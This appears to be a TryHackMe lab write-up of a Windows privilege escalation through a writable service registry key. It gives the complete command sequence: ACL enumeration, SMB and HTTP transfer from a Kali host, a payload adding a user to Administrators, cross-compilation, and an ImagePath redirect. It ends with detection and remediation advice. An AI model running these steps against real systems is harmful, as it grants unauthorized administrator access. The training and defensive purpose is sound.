







# Weak Service Registry Permissions — Windows Privilege Escalation

> **Platform:** TryHackMe  
> **Room:** Windows PrivEsc Arena  
> **Task:** 3  
> **Operating System:** Windows 7 Professional  
> **Technique:** Windows Service Registry ACL Abuse  
> **Initial Context:** Standard local user  
> **Result:** Local user added to the Administrators group  
> **MITRE ATT&CK:** T1574.011 — Services Registry Permissions Weakness  
> **CWE:** CWE-732 — Incorrect Permission Assignment for Critical Resource  

---

## Disclaimer

This write-up documents an authorized TryHackMe training environment.

Target addresses, VPN addresses, credentials, flags, and sensitive values have been removed or replaced with placeholders. The compiled executable used in the laboratory is not included in this repository.

---

## Executive Summary

The Windows host contained a service named `regsvc`. Windows stored the service configuration under the following Registry key:

```text
HKLM\SYSTEM\CurrentControlSet\Services\regsvc
```

Registry permission analysis showed that the `NT AUTHORITY\INTERACTIVE` security principal had `FullControl` over this key.

Because the low-privileged account had logged on interactively, it received the `INTERACTIVE` security identity and could modify sensitive service configuration values, including `ImagePath`.

The original Windows service source code was transferred from the target to Kali. The source was modified so that the service would add the local `user` account to the local `Administrators` group.

The modified source code was cross-compiled into a Windows executable and transferred back to the target. The `ImagePath` value of the `regsvc` service was then changed to point to the generated executable.

When the service was started, Windows executed the attacker-controlled binary under the service account's security context. The payload successfully added the low-privileged account to the local Administrators group.

---

## Attack Path

```text
Inspect the regsvc Registry permissions
                ↓
Identify INTERACTIVE: FullControl
                ↓
Transfer windows_service.c to Kali
                ↓
Modify the service source code
                ↓
Cross-compile the source into x.exe
                ↓
Transfer x.exe back to Windows
                ↓
Change the regsvc ImagePath value
                ↓
Start the regsvc service
                ↓
Windows launches the attacker-controlled executable
                ↓
The user account is added to Administrators
```

---

# 1. Understanding Windows Service Configuration

Windows services are background processes managed by the Windows Service Control Manager.

Each installed service normally has a corresponding Registry key under:

```text
HKLM\SYSTEM\CurrentControlSet\Services\<SERVICE_NAME>
```

For the vulnerable service, the Registry path was:

```text
HKLM\SYSTEM\CurrentControlSet\Services\regsvc
```

Important values stored in a service Registry key can include:

| Value | Purpose |
|---|---|
| `ImagePath` | Specifies the executable that Windows launches |
| `ObjectName` | Specifies the account under which the service runs |
| `Start` | Defines when the service starts |
| `Type` | Defines the service type |
| `DisplayName` | Stores the human-readable service name |
| `Description` | Stores descriptive information about the service |

The most security-sensitive value in this attack was:

```text
ImagePath
```

The Service Control Manager reads this value to determine which executable should be launched when the service starts.

If a low-privileged user can modify `ImagePath`, that user may be able to redirect a privileged service to an attacker-controlled executable.

---

# 2. Detecting the Vulnerable Registry Permissions

The Registry Access Control List was inspected from PowerShell:

```powershell
Get-Acl -Path "HKLM:\SYSTEM\CurrentControlSet\Services\regsvc" | Format-List
```

The relevant output included:

```text
Everyone                    Allow ReadKey
NT AUTHORITY\INTERACTIVE    Allow FullControl
NT AUTHORITY\SYSTEM         Allow FullControl
BUILTIN\Administrators      Allow FullControl
```



## Understanding the PowerShell command

```powershell
Get-Acl
```

Retrieves the Access Control List assigned to an object.

```powershell
-Path
```

Specifies the object whose permissions should be inspected.

```text
HKLM:
```

Uses the PowerShell Registry Provider to access `HKEY_LOCAL_MACHINE`.

```powershell
Format-List
```

Displays the resulting permission information as a readable list.

## Understanding the result

The following permission was not directly exploitable:

```text
Everyone Allow ReadKey
```

`ReadKey` permits users to inspect the Registry key but does not permit them to change its values.

The vulnerable permission was:

```text
NT AUTHORITY\INTERACTIVE Allow FullControl
```

`NT AUTHORITY\INTERACTIVE` represents users who logged on through an interactive session, including local console and Remote Desktop sessions.

Because the low-privileged `user` account was interactively logged on, it received this security identity and could modify the `regsvc` Registry key.

`FullControl` can include the ability to:

- Read Registry values
- Create new values
- Modify existing values
- Delete values
- Create subkeys
- Delete subkeys
- Change permissions
- Take ownership

This allowed the user to modify the service's `ImagePath`.

---

# 3. Why the Permission Was Dangerous

A standard user should not be able to control the executable path of a privileged Windows service.

The vulnerable trust relationship was:

```text
Low-privileged user controls the service ImagePath
                    ↓
The Service Control Manager trusts the ImagePath
                    ↓
The service launches user-controlled code
                    ↓
The code inherits the service account's security context
```

The original service executable did not need to be writable.

The privilege-escalation path existed because the Registry configuration that selected the executable was writable.

This distinction is important:

```text
Weak service executable permissions
```

allow an attacker to replace the service binary itself.

```text
Weak service Registry permissions
```

allow an attacker to modify the configuration that tells Windows which binary to execute.

This task demonstrated the second condition.

---

# 4. Transferring the Service Source Code to Kali

The laboratory contained the following Windows service source file:

```text
C:\Users\user\Desktop\Tools\Source\windows_service.c
```

The source was transferred to Kali so it could be modified and cross-compiled.

## Preparing the Kali SMB share

A receiving directory was created on Kali:

```bash
sudo mkdir -p /home/rkh101/windows-transfer
```

The directory permissions were configured to allow the current Kali user to access it:

```bash
sudo chown -R rkh101:kali /home/rkh101/windows-transfer
sudo chmod 777 /home/rkh101/windows-transfer
```

An SMB server was then started using Impacket:

```bash
sudo impacket-smbserver share /home/rkh101/windows-transfer \
-smb2support \
-username test \
-password test
```



## SMB server command explanation

```text
impacket-smbserver
```

Starts a temporary SMB file server.

```text
share
```

Defines the share name exposed to Windows.

```text
/home/rkh101/windows-transfer
```

Specifies the local Kali directory associated with the share.

```text
-smb2support
```

Enables SMB version 2 support.

```text
-username test
-password test
```

Configures credentials for accessing the share.

## Connecting from Windows

Existing network connections were removed:

```cmd
net use * /delete /y
```

A connection was then established to the Kali SMB share:

```cmd
net use \\<KALI_IP>\share /user:test test
```

The source file was copied from Windows to Kali:

```cmd
copy "C:\Users\user\Desktop\Tools\Source\windows_service.c" "\\<KALI_IP>\share\windows_service.c"
```

Windows confirmed:

```text
1 file(s) copied.
```



The source file was now available on Kali at:

```text
/home/rkh101/windows-transfer/windows_service.c
```

---

# 5. Modifying the Service Source Code

The source file was opened on Kali:

```bash
nano /home/rkh101/windows-transfer/windows_service.c
```

The `Run()` function was configured to execute:

```c
system("cmd.exe /k net localgroup administrators user /add");
```



## Source-code explanation

```c
system(...)
```

Invokes an operating-system command from the C program.

```text
cmd.exe
```

Starts the Windows command interpreter.

```cmd
/k
```

Instructs `cmd.exe` to execute the supplied command and keep the command interpreter open afterward.

```cmd
net localgroup administrators
```

Manages membership of the local Administrators group.

```cmd
user
```

Specifies the local account being modified.

```cmd
/add
```

Adds the specified account to the group.

The effective Windows command was:

```cmd
net localgroup administrators user /add
```

When executed with sufficient privileges, this command adds the local `user` account to the local Administrators group.

---

# 6. Cross-Compiling the Windows Executable

The modified C source code was compiled on Kali using the MinGW cross-compiler:

```bash
x86_64-w64-mingw32-gcc windows_service.c -o x.exe
```



## Compilation command explanation

```text
x86_64-w64-mingw32-gcc
```

Is a GCC-based cross-compiler that runs on Linux and produces 64-bit Windows Portable Executable files.

```text
windows_service.c
```

Is the source file being compiled.

```text
-o x.exe
```

Specifies the output filename.

The compilation produced:

```text
x.exe
```

The executable contained the modified service logic that added the `user` account to the Administrators group.

The generated executable is not included in this repository.

---

# 7. Transferring the Compiled Executable to Windows

A temporary Python HTTP server was started from the directory containing `x.exe`:

```bash
python3 -m http.server 80
```

The Windows host accessed the server through:

```text
http://<KALI_IP>/
```

The directory listing displayed:

```text
windows_service.c
x.exe
```

The generated executable was downloaded to the Windows machine.



The executable was placed at:

```text
C:\Temp\x.exe
```

`C:\Temp` was used because it was writable by the low-privileged user.

The fact that the replacement executable was stored in a writable directory was not enough by itself to create privilege escalation. The attack became possible because the user could also change the privileged service's `ImagePath` to reference that executable.

---

# 8. Replacing the Service ImagePath

The service's executable path was changed using:

```cmd
reg add HKLM\SYSTEM\CurrentControlSet\Services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\Temp\x.exe /f
```

## Command explanation

```cmd
reg add
```

Creates or modifies a Registry key or value.

```text
HKLM\SYSTEM\CurrentControlSet\Services\regsvc
```

Specifies the Registry key containing the `regsvc` configuration.

```cmd
/v ImagePath
```

Selects the `ImagePath` value.

```cmd
/t REG_EXPAND_SZ
```

Sets the Registry data type to an expandable string.

```cmd
/d C:\Temp\x.exe
```

Sets the new Registry data.

The service executable path therefore became:

```text
C:\Temp\x.exe
```

```cmd
/f
```

Forces the modification without requesting confirmation.

Windows returned:

```text
The operation completed successfully.
```

The existing service Registry key remained in place, but its executable path now referenced the attacker-controlled binary.

---

# 9. Starting the Service

The modified service was started using:

```cmd
sc start regsvc
```

The Service Control Manager processed the service-start request and read its current configuration from:

```text
HKLM\SYSTEM\CurrentControlSet\Services\regsvc
```

Because `ImagePath` had been changed, Windows attempted to launch:

```text
C:\Temp\x.exe
```

The service status displayed:

```text
STATE : 2 START_PENDING
```

The executable did not need to remain running as a stable service for the privilege escalation to succeed.

The important event was that the attacker-controlled binary started and executed its embedded command.

---

# 10. Verifying the Privilege Escalation

Membership of the local Administrators group was checked using:

```cmd
net localgroup administrators
```

The output included:

```text
Administrator
TCM
user
```



The presence of:

```text
user
```

inside the Administrators group confirmed that the service executable successfully modified privileged local group membership.

The privilege transition was:

```text
Standard local user
        ↓
Member of the local Administrators group
```

The existing interactive session may continue using the access token that was created when the user originally logged on.

The user should normally log off and log back on before expecting the new Administrators membership to be fully represented in a newly created access token.

---

# 11. What Happened Behind the Scenes

The complete internal process was:

```text
The low-privileged user logs on interactively
                    ↓
Windows assigns the INTERACTIVE security identity
                    ↓
INTERACTIVE has FullControl over the regsvc Registry key
                    ↓
The user modifies the ImagePath Registry value
                    ↓
ImagePath now references C:\Temp\x.exe
                    ↓
The user requests the service to start
                    ↓
The Service Control Manager reads the updated configuration
                    ↓
Windows launches x.exe under the service account's context
                    ↓
x.exe executes:
net localgroup administrators user /add
                    ↓
The local user is added to the Administrators group
```

The privilege escalation was enabled by the combination of:

1. A service running with elevated privileges.
2. A service Registry key writable by an unprivileged user.
3. An attacker-controlled executable.
4. The ability to start or otherwise trigger the service.

The central security failure was:

> An unprivileged user could control the executable launched by a privileged Windows service.

---

# 12. Service ACL Versus Registry ACL

The Windows service object and its corresponding Registry key have separate permission systems.

## Service object permissions

The service object has an Access Control List that can govern actions such as:

- Starting the service
- Stopping the service
- Pausing the service
- Querying service status
- Changing the service configuration
- Deleting the service
- Reading the service security descriptor
- Modifying the service security descriptor

The service security descriptor can be inspected using:

```cmd
sc sdshow regsvc
```

## Service Registry permissions

The service Registry key has a separate ACL:

```text
HKLM\SYSTEM\CurrentControlSet\Services\regsvc
```

This ACL determines who can read or modify Registry values such as:

```text
ImagePath
ObjectName
Start
Type
```

The vulnerable object in this task was the Registry key.

The dangerous permission was:

```text
NT AUTHORITY\INTERACTIVE Allow FullControl
```

Even if the service object's own permissions are reasonably configured, a writable service Registry key can still create a privilege-escalation path.

---

# 13. Why the Service Entered START_PENDING

The service status showed:

```text
STATE : 2 START_PENDING
```

Windows services normally communicate with the Service Control Manager and report their status through the Windows service API.

A normal service generally reports transitions such as:

```text
START_PENDING
        ↓
RUNNING
        ↓
STOP_PENDING
        ↓
STOPPED
```

If a replacement executable does not behave exactly like a properly implemented Windows service, the Service Control Manager may continue waiting for a valid service-status response.

This does not necessarily mean that the executable failed to run.

In this task, the relevant command executed successfully before the service completed a normal state transition, as demonstrated by the modified Administrators group membership.

## Windows Version Compatibility

> This lab was tested on Windows 7 Professional. The Registry and service-control commands remain conceptually valid on newer Windows versions; however, the replacement executable used in this task may not operate reliably as a service on Windows 10 or Windows 11.

A Windows service executable must implement the Windows Service API and communicate correctly with the Service Control Manager. This normally includes:

- Calling `StartServiceCtrlDispatcher`
- Providing a `ServiceMain` entry point
- Registering a control handler with `RegisterServiceCtrlHandler` or `RegisterServiceCtrlHandlerEx`
- Reporting service states through `SetServiceStatus`

The Service Control Manager expects the executable to establish this connection shortly after it starts. Microsoft documents that a service process should call `StartServiceCtrlDispatcher` within approximately 30 seconds. :contentReference[oaicite:0]{index=0}

A basic executable that only performs a command, without implementing the required service dispatcher, control handler, and status-reporting logic, is not a fully compliant Windows service executable.

On Windows 7, such an executable may still begin running and execute its payload before the Service Control Manager determines that it failed to behave as a valid service. This explains why the privilege-changing command may succeed even while the service remains in `START_PENDING`.

On Windows 10 and Windows 11, the same incomplete executable should not be expected to start reliably as a service. The Service Control Manager may reject or time out the process because it does not connect to the service dispatcher or respond correctly to service-control requests, commonly resulting in a service startup failure such as Error 1053.

Therefore, the limitation is not caused by different exploitation commands. It is caused by the replacement executable not fully implementing the Windows service lifecycle and required Service Control Manager communication.

> The underlying weak Registry-permission vulnerability can still exist on Windows 10 or Windows 11. However, exploitation on those systems requires a properly implemented Windows service executable that uses the required Windows Service APIs.

---

# 14. Security Classification

## Vulnerability

```text
Weak Service Registry Permissions
```

## Attack type

```text
Service ImagePath Hijacking
```

## Impact

```text
Local Privilege Escalation
```

## MITRE ATT&CK

```text
T1574.011 — Hijack Execution Flow: Services Registry Permissions Weakness
```

This technique covers abusing weak permissions on service-related Registry keys to redirect service execution to attacker-controlled code.

## CWE

```text
CWE-732 — Incorrect Permission Assignment for Critical Resource
```

The service Registry key was a critical resource because it controlled which executable a privileged Windows service launched.

---

# 15. Detection Opportunities

Defenders should monitor service Registry keys under:

```text
HKLM\SYSTEM\CurrentControlSet\Services
```

Important values to monitor include:

```text
ImagePath
ObjectName
Start
Type
```

Useful detection opportunities include:

- Registry auditing for changes to service configuration
- Alerts when non-administrative users modify service Registry keys
- Monitoring `reg.exe` commands targeting service Registry paths
- Monitoring PowerShell Registry modification commands
- Detecting service binaries launched from `C:\Temp`
- Detecting service binaries launched from user-writable directories
- Monitoring unexpected `sc start` activity
- Monitoring changes to local Administrators group membership
- Detecting `net localgroup administrators ... /add`
- File integrity monitoring for service executables
- Reviewing Registry ACLs assigned to `INTERACTIVE`
- Reviewing Registry ACLs assigned to `Everyone`
- Reviewing Registry ACLs assigned to `Users`
- Reviewing Registry ACLs assigned to `Authenticated Users`

Suspicious command patterns include:

```cmd
reg add HKLM\SYSTEM\CurrentControlSet\Services\<SERVICE_NAME> /v ImagePath
```

```cmd
net localgroup administrators <USERNAME> /add
```

A particularly suspicious combination would be:

```text
Service ImagePath changed
        ↓
New executable placed in a writable directory
        ↓
Service started
        ↓
Privileged group membership changed
```

---

# 16. Remediation

The `INTERACTIVE` principal should not have `FullControl` over privileged service Registry keys.

A secure permission model should generally resemble:

```text
NT AUTHORITY\SYSTEM       FullControl
BUILTIN\Administrators    FullControl
Standard users            ReadKey
```

Recommended remediation actions include:

- Remove `FullControl` from `NT AUTHORITY\INTERACTIVE`.
- Remove Registry write access from `Everyone`.
- Remove Registry write access from `Users`.
- Remove Registry write access from `Authenticated Users`.
- Restrict service configuration changes to trusted administrators.
- Audit all keys under `HKLM\SYSTEM\CurrentControlSet\Services`.
- Prevent services from launching binaries from user-writable directories.
- Monitor modifications to service `ImagePath` values.
- Restore the legitimate service executable path.
- Remove unauthorized users from the local Administrators group.
- Investigate any executables placed in `C:\Temp`.
- Use AppLocker or Windows Defender Application Control.
- Apply file integrity monitoring to service executables.
- Review the account configured in the service's `ObjectName` value.
- Enable Registry auditing for security-sensitive service keys.
- Apply the principle of least privilege to service configuration.

---

# 17. Lessons Learned

The original service executable did not need to be writable for this attack to succeed.

The privilege escalation occurred because the low-privileged user could modify the Registry configuration that selected the service executable.

The most important enumeration questions were:

```text
Which account runs the service?
Who can modify the service Registry key?
Who can modify ImagePath?
Can the user start or trigger the service?
Is the configured executable stored in a writable location?
Can the service be redirected to an attacker-controlled binary?
```

This task also demonstrates why Windows privilege-escalation enumeration must inspect more than service executable permissions.

Both of the following must be reviewed:

```text
Service object permissions
Service Registry-key permissions
```

The central lesson is:

> A privileged service is only as secure as the permissions protecting its executable, service object, and Registry configuration.

---

## Tools Used

| Tool | Purpose |
|---|---|
| PowerShell `Get-Acl` | Inspect the service Registry-key permissions |
| Impacket SMB Server | Transfer the service source code from Windows |
| `net use` | Connect Windows to the Kali SMB share |
| Nano | Modify the C source code |
| MinGW GCC | Cross-compile a Windows executable on Kali |
| Python HTTP Server | Transfer the compiled executable to Windows |
| Internet Explorer | Download the executable from Kali |
| `reg.exe` | Change the service `ImagePath` value |
| `sc.exe` | Start the Windows service |
| `net localgroup` | Verify local Administrators membership |

---

## Evidence Summary

| Evidence | Finding |
|---|---|
| Registry ACL | `INTERACTIVE` had `FullControl` over the `regsvc` key |
| SMB server | Kali share prepared to receive the service source |
| Source transfer | `windows_service.c` copied from Windows to Kali |
| Source modification | Payload configured to add `user` to Administrators |
| Cross-compilation | Windows executable generated using MinGW |
| File transfer | Compiled executable downloaded to Windows |
| Registry modification | `ImagePath` redirected to `C:\Temp\x.exe` |
| Service execution | `regsvc` launched the attacker-controlled binary |
| Group verification | `user` appeared in the local Administrators group |

---

## References

- MITRE ATT&CK T1574.011 — Services Registry Permissions Weakness
- CWE-732 — Incorrect Permission Assignment for Critical Resource
- Microsoft documentation for Windows services
- Microsoft documentation for service Registry entries
- Microsoft documentation for Registry security and access rights
- Microsoft documentation for the Service Control Manager
